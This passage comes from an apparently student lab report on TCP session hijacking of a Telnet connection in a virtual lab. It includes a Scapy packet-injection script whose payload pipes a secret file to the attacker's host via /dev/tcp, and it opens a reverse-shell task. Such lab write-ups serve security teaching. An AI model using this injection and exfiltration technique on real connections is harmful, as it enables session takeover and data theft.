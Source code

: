 The image below shows that we successfully access the data inside of the screte file in "*VTM1*" by the `netcat` on "*ATK*". 

<figure>
<img style="width:100%" src="https://codimd.s3.shivering-isles.com/demo/uploads/upload_132822999242ee8170a3cfd3ff6d74db.png"/>
<figcaption> Figure 4.2.2 Executing of the attack from the netwox</figcaption><br>
</figure>

(PS. After attacking, the TelNet connection was completely lose control on "*VTM2*". Therefore, we restarted a new connection for following tasks)

### 4.3 Attack by Scapy

We also implemented the attack by the Python package, Scapy. Before attacking, we used the Wireshark again to get the last TelNet package. The port number (39176), sequence number (3770990930) and ACK number (1042719746) were updated. 

<figure>
<img style="width:100%" src="https://codimd.s3.shivering-isles.com/demo/uploads/upload_f76c4056f53cc38d9b1f585e88e36e42.png"/>
<figcaption> Figure 4.2.2 Executing of the attack from the netwox</figcaption><br>
</figure>

Based on the values in the last TCP package, we constructured the script codes for attacking. 

```Python
#!/usr/bin/python
from scapy.all import *

ip = IP(src="10.0.2.6", dst="10.0.2.7")
tcp = TCP(
    sport=39176, dport=23, flags="A",
    seq=3770990930, ack=1042719746
)
data = "\r cat /home/seed/secret > /dev/tcp/10.0.2.15/9090\r"
pkt = ip/tcp/data
ls(pkt)
send(pkt,verbose=0)
```

After lauching the attack, we got the output below, which shows that we successfully access the secret file form the "*VTM1*". 

<figure>
<img style="width:100%" src="https://codimd.s3.shivering-isles.com/demo/uploads/upload_132822999242ee8170a3cfd3ff6d74db.png"/>
<figcaption> Figure 4.3.2 Outputs for the commands</figcaption><br>
</figure>

<div style="page-break-after: always;"></div>

## Task 5: Creating Reverse Shell using TCP Session Hijacking

In this task, we used the similar configuration as before. The attacker's IP was `10.0.2.15`. The IP of Server and client were `10.0.2.7` and `10.0.2.6` respectively. 
In the end, we expected to see that the attack machine hijacked the telnet connection between the victim and the server, and it could run the Shell as the victim machine on the server.
